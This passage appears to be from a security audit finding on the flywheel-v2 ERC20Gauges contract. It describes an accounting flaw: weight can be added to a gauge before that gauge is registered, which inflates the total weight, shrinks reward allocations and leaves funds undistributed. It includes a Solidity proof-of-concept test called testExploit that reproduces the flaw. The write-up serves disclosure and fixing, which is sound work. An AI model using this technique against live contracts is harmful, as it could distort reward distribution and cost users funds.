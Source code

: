 The impact depends really on how gauges are used by other contracts.

The most obvious consequence I can imagine is that some other contract distributes rewards based on `calculateGaugeAllocation`. However, because `_getStoredWeight(_totalWeight, currentCycle)` is now larger than the real total sum of weights, all rewards are smaller than they should be (because of larger denominator `total`).

There can be also (potentially large) leftover amount of rewards that is never distributed because now sum of `calculateGaugeAllocation(gauge, quantity)` over all gauges with constant `quantity` is less than `quantity`. So value might be lost.

### [](#proof-of-concept-3)Proof of Concept

I added this test (modified `testCalculateGaugeAllocation` ) to `ERC20GaugesTest.t.sol` and it passes.

        function testExploit() public {
            token.mint(address(this), 100e18);
    
            token.setMaxGauges(2);
            token.addGauge(gauge1);
    
            require(token.incrementGauge(gauge1, 1e18) == 1e18);
            require(token.incrementGauge(gauge2, 1e18) == 2e18);
            
            // gauge added after incrementing...
            token.addGauge(gauge2);
    
            hevm.warp(3600); // warp 1 hour to store changes
            require(token.calculateGaugeAllocation(gauge1, 150e18) == 50e18);
            require(token.calculateGaugeAllocation(gauge2, 150e18) == 50e18);
    
            // expected value would be 2e18
            require(token.totalWeight() == 3e18);
    
            require(token.incrementGauge(gauge2, 2e18) == 4e18);
    
            // ensure updates don't propagate until stored
            require(token.calculateGaugeAllocation(gauge1, 150e18) == 50e18);
            require(token.calculateGaugeAllocation(gauge2, 150e18) == 50e18);
    
            hevm.warp(7200); // warp another hour to store changes again
            require(token.calculateGaugeAllocation(gauge1, 125e18) == 25e18);
            require(token.calculateGaugeAllocation(gauge2, 125e18) == 75e18);
            
            // expected value would be 4e18
            require(token.totalWeight() == 5e18);
        }

As we can see, we can call `token.incrementGauge(gauge2, 1e18)` before `token.addGauge(gauge2)`. This is because [this check](https://github.com/fei-protocol/flywheel-v2/blob/77bfadf388db25cf5917d39cd9c0ad920f404aad/src/token/ERC20Gauges.sol#L257) doesn’t revert for gauges that were never added in the first place.

First time the total weight is incremented in `_incrementUserAndGlobalWeights` and 2nd time [here](https://github.com/fei-protocol/flywheel-v2/blob/77bfadf388db25cf5917d39cd9c0ad920f404aad/src/token/ERC20Gauges.sol#L465-L469).
